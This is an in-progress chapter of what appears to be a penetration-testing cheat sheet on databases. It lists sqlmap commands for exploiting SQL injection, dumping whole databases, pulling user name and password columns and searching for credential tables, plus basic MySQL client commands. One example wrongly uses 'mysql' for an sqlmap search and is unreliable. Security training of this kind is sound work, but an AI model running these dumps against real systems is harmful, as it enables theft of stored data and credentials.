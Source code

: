 ```yaml
---
description: >-
  Databases vary widely, each requiring specific commands, tools, and syntax.
  This chapter provides guidance on navigating these differences.
---
```


# Databases

<mark style="color:red;background-color:yellow;">This chapter is in-progress.</mark>

#### Database Management Systems

[#mysql](databases.md#mysql "mention")

[#microsoft-sql](databases.md#microsoft-sql "mention")

[#postgresql](databases.md#postgresql "mention")

#### Tools

[#sqlmap](databases.md#sqlmap "mention")

### SQLMap

An open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. [https://sqlmap.org/](https://sqlmap.org/)

#### Basic Data Enumeration

```bash
# Check version, user, db name and admin permissions
sqlmap -u "http://www.acuity.lab/?id=1" --banner --current-user --current-db --is-dba
```

#### Table Enumeration

```bash
# Dump everything from MySQL server (no system databases) and require no user input
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs --batch

# Dump everything from a specific database
sqlmap -u "http://www.example.com/?id=1" -D database --dump

# Enumerate all tables within the specified DB
sqlmap -u "http://www.example.com/?id=1" --tables -D database

# Dump all data from the specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database

# Dump only specific columns from specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database -C name,password

# Limit rows dumped by ordinal numbers
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --start=2 --stop=3

# Dump data based on matched conditions
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name = 'acuity'"

# alternative
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name LIKE 'acu%'"
```

#### Search for columns, tables or databases

Switch `--search` needs to be used in conjunction with one of the following support options:

* `-C` following a list of comma-separated column names to look for across the whole database management system.
* `-T` following a list of comma-separated table names to look for across the whole database management system.
* `-D` following a list of comma-separated database names to look for across the database management system.

Example:

```bash
# Search for tables containg "cred" in their name across DBMS
mysql -u "http://www.example.com/?id=1" --search -T cred
```

### MySQL

Connect to a MySQL server

```bash
# Local service
mysql -u acuity -pSuperStr00ng!

# Remote service
mysql -u acuity -p -h <IP> -P 3306
```

List all databases

```sql
show databases;
```

Select a database

```sql
use name_of_database;
```

List all tables in the active database

```sql
show tables;
```

List content of a table

```sql
# List all content
select * from name_of_table;

# Define a more specific selection
select username, password from users where username = 'HTB';
```

### Microsoft SQL

### PostgreSQL
